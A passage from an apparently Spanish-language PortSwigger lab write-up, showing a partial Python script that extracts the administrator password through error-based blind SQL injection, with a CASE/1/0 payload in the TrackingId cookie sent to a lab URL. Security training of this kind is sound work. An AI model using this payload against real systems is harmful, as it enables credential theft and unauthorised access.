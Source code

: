 ![](/assets/img/ps-writeup-sqli/ps-lab12_22.png)

Para acelerar la extracción de la contraseña, se puede reutilizar el script anterior.

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
	print("\n\n[!] Saliendo ...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

main_url = "https://0ae700d003dd8acc829f25eb00a00041.web-security-academy.net"
characters = string.ascii_lowercase + string.digits


def maKeRequest():
	
	password = ""
	
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Password")
	
	for position in range(1,21):
		for character in characters:
		
			cookies = {
				'TrackingId': "o3pEpkSA7E0m2OgN'||(select case when substr(password,%d,1)='%s' then to_char(1/0) else '' end from users where username='administrator')||'" % (position, character),
				'session': 'N7X7ZSMpZ5AwAIVb9iUkhaYgN3hXVYj5'
			}
			
			p1.status(cookies['TrackingId'])
```
